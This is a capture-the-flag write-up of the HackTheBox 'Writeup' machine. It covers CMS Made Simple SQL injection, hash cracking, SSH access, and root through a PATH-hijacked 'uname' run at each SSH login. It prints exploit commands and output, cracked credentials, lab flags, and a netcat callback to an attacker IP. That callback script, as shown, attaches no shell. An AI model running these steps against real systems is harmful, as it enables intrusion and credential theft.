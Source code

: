 ```yaml
---
title: "Writeup - HackTheBox"
date: "2019-10-12"
tags:
    - "CTF"
    - "HackTheBox"
    - "SQL"
    - "exploiting"
draft: false
---
```


Writeup is an easy Linux machine on HackTheBox. It's about enumeration and
exploitation.

# User

As always, the first thing to do is a port scan with nmap:
```
$ nmap -A 10.10.10.138
Starting Nmap 7.80 ( https://nmap.org ) at 2019-10-12 14:29 EDT
Nmap scan report for 10.10.10.138
Host is up (0.060s latency).
Not shown: 998 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey:
|   2048 dd:53:10:70:0b:d0:47:0a:e2:7e:4a:b6:42:98:23:c7 (RSA)
|   256 37:2e:14:68:ae:b9:c2:34:2b:6e:d9:92:bc:bf:bd:28 (ECDSA)
|_  256 93:ea:a8:40:42:c1:a8:33:85:b3:56:00:62:1c:a0:ab (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
| http-robots.txt: 1 disallowed entry
|_/writeup/
|_http-title: Nothing here yet.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.23 seconds
```

Let's visit the web server:

![Pagina web](/images/hackthebox/writeup/web.png)

The website index does not contain anything interesting. Let's visit the
`writeup` directory that `nmap` found in the `robots.txt` file:

![Writeup directory](/images/hackthebox/writeup/web-writeup.png)

The links in the list are to the following urls:
```
http://10.10.10.138/writeup/index.php?page=ypuffy
http://10.10.10.138/writeup/index.php?page=blue
http://10.10.10.138/writeup/index.php?page=writeup
```
and they only contains text.

Trying some basic fuzzing on the `page` parameter gives us only 404 pages. Even
local file inclusion does not work.
Let's take a step back and navigate through the source code of the website.
In the `head` section there are references to `CMS made simple`
```html
<meta name="Generator" content="CMS Made Simple - Copyright (C) 2004-2019. All rights reserved." />
```

A quick search with `searchsploit` gives us a long list of exploits:
```
$ searchsploit cms made simple
-------------------------------------------------------------------------------------- ----------------------------------------
 Exploit Title                                                                        |  Path
                                                                                      | (/usr/share/exploitdb/)
-------------------------------------------------------------------------------------- ----------------------------------------
CMS Made Simple (CMSMS) Showtime2 - File Upload Remote Code Execution (Metasploit)    | exploits/php/remote/46627.rb
CMS Made Simple 0.10 - 'Lang.php' Remote File Inclusion                               | exploits/php/webapps/26217.html
CMS Made Simple 0.10 - 'index.php' Cross-Site Scripting                               | exploits/php/webapps/26298.txt
CMS Made Simple 1.0.2 - 'SearchInput' Cross-Site Scripting                            | exploits/php/webapps/29272.txt
CMS Made Simple 1.0.5 - 'Stylesheet.php' SQL Injection                                | exploits/php/webapps/29941.txt
CMS Made Simple 1.11.10 - Multiple Cross-Site Scripting Vulnerabilities               | exploits/php/webapps/32668.txt
CMS Made Simple 1.11.9 - Multiple Vulnerabilities                                     | exploits/php/webapps/43889.txt
CMS Made Simple 1.2 - Remote Code Execution                                           | exploits/php/webapps/4442.txt
CMS Made Simple 1.2.2 Module TinyMCE - SQL Injection                                  | exploits/php/webapps/4810.txt
CMS Made Simple 1.2.4 Module FileManager - Arbitrary File Upload                      | exploits/php/webapps/5600.php
CMS Made Simple 1.4.1 - Local File Inclusion                                          | exploits/php/webapps/7285.txt
CMS Made Simple 1.6.2 - Local File Disclosure                                         | exploits/php/webapps/9407.txt
CMS Made Simple 1.6.6 - Local File Inclusion / Cross-Site Scripting                   | exploits/php/webapps/33643.txt
CMS Made Simple 1.6.6 - Multiple Vulnerabilities                                      | exploits/php/webapps/11424.txt
CMS Made Simple 1.7 - Cross-Site Request Forgery                                      | exploits/php/webapps/12009.html
CMS Made Simple 1.8 - 'default_cms_lang' Local File Inclusion                         | exploits/php/webapps/34299.py
CMS Made Simple 1.x - Cross-Site Scripting / Cross-Site Request Forgery               | exploits/php/webapps/34068.html
CMS Made Simple 2.1.6 - Multiple Vulnerabilities                                      | exploits/php/webapps/41997.txt
CMS Made Simple 2.1.6 - Remote Code Execution                                         | exploits/php/webapps/44192.txt
CMS Made Simple 2.2.5 - (Authenticated) Remote Code Execution                         | exploits/php/webapps/44976.py
CMS Made Simple 2.2.7 - (Authenticated) Remote Code Execution                         | exploits/php/webapps/45793.py
CMS Made Simple < 1.12.1 / < 2.1.3 - Web Server Cache Poisoning                       | exploits/php/webapps/39760.txt
CMS Made Simple < 2.2.10 - SQL Injection                                              | exploits/php/webapps/46635.py
CMS Made Simple Module Antz Toolkit 1.02 - Arbitrary File Upload                      | exploits/php/webapps/34300.py
CMS Made Simple Module Download Manager 1.4.1 - Arbitrary File Upload                 | exploits/php/webapps/34298.py
CMS Made Simple Showtime2 Module 3.6.2 - (Authenticated) Arbitrary File Upload        | exploits/php/webapps/46546.py
-------------------------------------------------------------------------------------- ----------------------------------------
Shellcodes: No Result
```

Given that the date of the copyright string is 2019, it must the most recent
exploit, so let's download it with:
```
$ searchsploit -m 46635
```

Reading the code we can see that it exploits a SQL injection vulnerabilty in the
`moduleinterface.php` file. More specifically, it's a time based blind SQL
injection, you can find a good explanation
[here](http://www.sqlinjection.net/time-based/).

Let's then run the exploit:
```
$ python2 46635.py -u http://10.10.10.138/writeup/

[+] Salt for password found: 5a599ef579066807
[+] Username found: jkr
[+] Email found: jkr@writeup.htb
[+] Password found: 62def4866937f08cc13bab43bb14e6f7
```

The exploit finds the username of the administration panel, the password hash
and the salt used to hash the password. The hash format is `MD5($SALT.$PASSWORD)`
, let's use `hashcat` to try to bruteforce it:
```
$ hashcat --force -m 20 hash.txt rockyou.txt
```

It only takes a couple of seconds with a gpu and the password is `raykayjay9`.
Let's try the password on `ssh`:

```
$ ssh jkr@10.10.10.138
The authenticity of host '10.10.10.138 (10.10.10.138)' can't be established.
ECDSA key fingerprint is SHA256:TEw8ogmentaVUz08dLoHLKmD7USL1uIqidsdoX77oy0.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.138' (ECDSA) to the list of known hosts.
jkr@10.10.10.138's password:
Linux writeup 4.9.0-8-amd64 x86_64 GNU/Linux

The programs included with the Devuan GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Devuan GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
jkr@writeup:~$
```

And here's the flag:
```
jkr@writeup:~$ cat user.txt
d4e493fd4068afc9eb1aa6a55319f978
```

# Root

The first thing that I usually do is a basic local enumeration with tools like
`LinEnum` and `pspy`. HackTheBox machines do not have internet access, so let's
copy then on the machine with `scp`:
```
$ scp LinEnum jrk@10.10.10.138:~
$ scp pspy64 jrk@10.10.10.138:~
```

`LinEnum` does not give us something interesting. At first, also `pspy` was not
interesting. After a couple of minutes I connected using another `ssh`
connection and something interesting popped out on `pspy`:


![pspy](/images/hackthebox/writeup/pspy.png)

This command gets executed on every `ssh` connection:
```bash
sh -c /usr/bin/env -i PATH=/usr/local/sbin:/usr/local/bin:\
    /usr/sbin:/usr/bin:/sbin:/bin \
    run-parts --lsbsysinit /etc/update-motd.d > /run/motd.dynamic.new
```

The `run-parts` command runs every file present in the indicated directory,
`/etc/update-motd.d` in our case, and the output of it gets written in
`/run/motd.dynamic.new`.

If we could write a script in `/etc/update-motd.d` then it's done! Let's check
the permissions on the directory:
```
$ ls -la /etc/update-motd.d/
total 12
drwxr-xr-x  2 root root 4096 Apr 19 04:12 .
drwxr-xr-x 81 root root 4096 Aug 23 05:16 ..
-rwxr-xr-x  1 root root   23 Jun  3  2018 10-uname
```

Sadly, only `root` is allowed to write. Let's inspect `10-uname`:
```bash
#!/bin/sh
uname -rnsom
```
It just runs the `uname` command. After a bit of thinking, I remembered that the
command that gets executed on every ssh connection had a custom `PATH` variable,
so I thought that if I can write an executable called `uname` in one of the
directories, It could be executed instead of the original one. Luckily, the
first one in the `PATH` variable is writeable by us:
```
jkr@writeup:~$ ls -lad /usr/local/sbin
drwx-wsr-x 2 root staff 12288 Apr 19 04:11 /usr/local/sbin
```

Let's then write the file (`/usr/local/sbin/uname`) that will gets us a `root`
connection using `netcat`
```
#!/bin/sh
nc 10.10.14.25 1337
```

After saving it, give it execute permissions with `chmod +x` and run `nc -lnvp
1337` on your machine to listen for the connection. After a successful `ssh`
connection the custom `uname` script gets executed an we can read the flag:
```
$ cat /root/root.txt
eeba47f60b48ef92b734f9b6198d7226
```

Thanks for the reading, see you in the next one!
